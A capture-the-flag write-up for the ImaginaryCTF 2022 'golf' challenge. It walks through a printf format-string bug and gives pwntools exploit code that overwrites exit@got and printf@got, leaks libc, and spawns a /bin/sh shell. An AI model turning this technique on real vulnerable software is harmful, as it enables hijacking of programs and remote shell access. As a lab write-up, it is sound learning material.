








# ImaginaryCTF - 2022

Original challenge link: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [golf.zip](golf.zip)

There will be 2 files in zip:
- golf
- golf.c

Download and extract and we can get started!

# 1. Find bug

Opening source file and we can see it's hard to read. With a bit modifying and here is the source:

```c
main()
{
	char aa[256];
	fgets(aa, 256, stdin);
	if(	strlen (aa) < 11)
		printf(aa);
	exit(00);
}
```

It read upto 256 byte but will check if it's length lower than 11 or not, and if it's true, it will execute `printf()`, which has **Format String** bug.

And if we can execute `printf()` we may overwrite `exit@got` so let's check if RELRO is FULL or not:

```bash
$ checksec golf
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Nice! It's `Partial RELRO` so overwriting `exit@got` is possible.

# 2. Idea

Because `printf()` will be executed just in case `strlen(aa) < 11`, we can input format string at the begining of input, then a null byte to terminate our string to pass this check and then the address of `main()` and address of `exit@got`. 

Due to the small len, we cannot input a large pad to the format string. Therefore, using wildcard character will help us in padding bytes: `%*<k>$c` will print the number of byte at position `<k>` so we will use it as padding.

After overwriting `exit@got` into `main()`, we will leak libc address, download libc and overwrite `printf@got` with `system` and in the next loop, input `/bin/sh` to execute `printf("/bin/sh")` which is actually `system("/bin/sh")`

Summary:
- Stage 1: Overwrite exit@got to main
- Stage 2: Leak libc address
- Stage 3: Overwrite printf@got to system

# 3. Exploit

### Stage 1: Overwrite exit@got to main

The idea shows everything. This is script for first stage:

```python
payload = b'%*8$c%9$nA' + b'\x00'
payload = payload.ljust(0x10, b'P')
payload += flat(exe.sym['main'], exe.got['exit'])
p.sendline(payload)
p.recvuntil(b'A')
```

Format string `%*8$c` will point to `exe.sym['main']` and will print `0x40121b` bytes of padding. Format string `%9$n` will write to `exe.got['exit']` the number of padding was printed, which is `0x40121b` bytes of pad. The byte `A` at the end just for marking when it's done printing.

Before `printf()`



After `printf()`



### Stage 2: Leak libc address

With the program execute main again, we can easily leak the address of any @got we want:

```python
payload = b'%8$sB' + b'\x00'
payload = payload.ljust(0x10, b'P')
payload += flat(exe.got['printf'])
p.sendline(payload)

printf_addr = u64(p.recvuntil(b'B', drop=True) + b'\x00\x00')
log.info(hex(printf_addr))
```

Run and attach with gdb, we can see both address are correct:





Let's connect to server and get the real address:



Then go to https://libc.rip/ to get libc:





There are some 32-bit and 64-bit libcs but we just need to focus on 64-bit libcs such as

```
libc6-amd64_2.31-6_i386
libc6_2.31-6_amd64
libc6-amd64_2.31-5_i386
libc6_2.31-5_amd64
libc6_2.31-0ubuntu9.8_amd64
```

You can try all libc but for me, I prefer the last one with `libc6_2.31-0ubuntu9.8_amd64`. Let's download and patch to binary and we can continue. Modifying the code receiving address to following:

```python
printf_addr = u64(p.recvuntil(b'B', drop=True) + b'\x00\x00')
libc.address = printf_addr - libc.sym['printf']
log.info(hex(libc.address))
```

### Stage 3: Overwrite printf@got to system

This stage is similar to stage 1 so code is the same:

```python
payload = b'%*8$c%9$nC' + b'\x00'
payload = payload.ljust(0x10, b'P')
payload += flat(libc.sym['system'], exe.got['printf'])
p.sendline(payload)
p.recvuntil(b'C')
```

And when we overwriten `printf@got`, just send string `/bin/sh` to get shell:

```python
p.sendline(b'/bin/sh')
```

Hold on! Because libc address is different for every run and the wildcard character `%*8$c` will print the number of pad equal to a unsigned number. For example, when we use wildcard character at an address `0xdeadbeefcafebabe`, it will just print `0xcafebabe` bytes of pad.

So we will want the most significant byte of `0xcafebabe`, which is byte `0xca`, to be a small byte so waiting will not be long. Hence we need to put stage 1 and 2 in a while loop and loop until the base address of libc has that byte lower than `0x10`:

```python
while True:
	p = process(exe.path)
	# p = remote('golf.chal.imaginaryctf.org', 1337)

	###########################################
	### Stage 1: Overwrite exit@got to main ###
	###########################################
	payload = b'%*8$c%9$nA' + b'\x00'
	payload = payload.ljust(0x10, b'P')
	payload += flat(exe.sym['main'], exe.got['exit'])
	p.sendline(payload)
	p.recvuntil(b'A')

	##################################
	### Stage 2: Leak libc address ###
	##################################
	payload = b'%8$sB' + b'\x00'
	payload = payload.ljust(0x10, b'P')
	payload += flat(exe.got['printf'])
	p.sendline(payload)

	try:
		printf_addr = u64(p.recvuntil(b'B', drop=True)[-6:] + b'\x00\x00')
	except:
		p.close()
		continue
	libc.address = printf_addr - libc.sym['printf']
	log.info(hex(printf_addr))
	log.info(hex(libc.address))

	if ((libc.address >> 24) & 0xff) < 0x5:        # Check here
		break
	libc.address = 0
	p.close()
```

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `ictf{useless_f0rmat_string_quirks_f0r_days_9b5d191f}`